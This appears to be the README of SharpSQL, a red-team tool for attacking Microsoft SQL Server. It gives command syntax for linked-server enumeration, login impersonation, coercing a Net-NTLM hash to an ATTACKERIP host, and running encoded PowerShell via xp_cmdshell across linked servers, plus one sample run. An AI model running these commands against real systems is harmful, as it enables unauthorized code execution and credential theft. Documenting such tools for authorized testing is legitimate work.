 # SharpSQL

----

### Command Line Usage


    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0
        
    MSSQL Authenticated Server Enumeration and Impersonation:
        [1] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
            SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
            SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve SQL Logins Available for Impersonation and Impersonate the Available Login:
            SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
            SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
            
    MSSQL Command Execution:
        [1] Execute Encoded PowerShell Command via 'xp_cmdshell':
            SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command via 'Ole Automation Procedures':
            SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
            SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Configure Linked SQL Server to Allow RPC connections:
            SharpSQL.exe rpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Double Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]


### getlinked

C:\SharpSQL>SharpSQL.exe getlinked /db:master /server:SQL1

███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
     ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                    ▀▀
Written By: Jb05s | Version: 1.1.0

[*] Action: Retrieve Linked Servers

        Usage: SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

[+] Authentication to the 'master' Database on 'SQL1' Successful!
[*] Linked SQL server: SQL2
[*] Linked SQL server: SQL1\SQLEXPRESS


### getdbuser



### getlogin



### gethash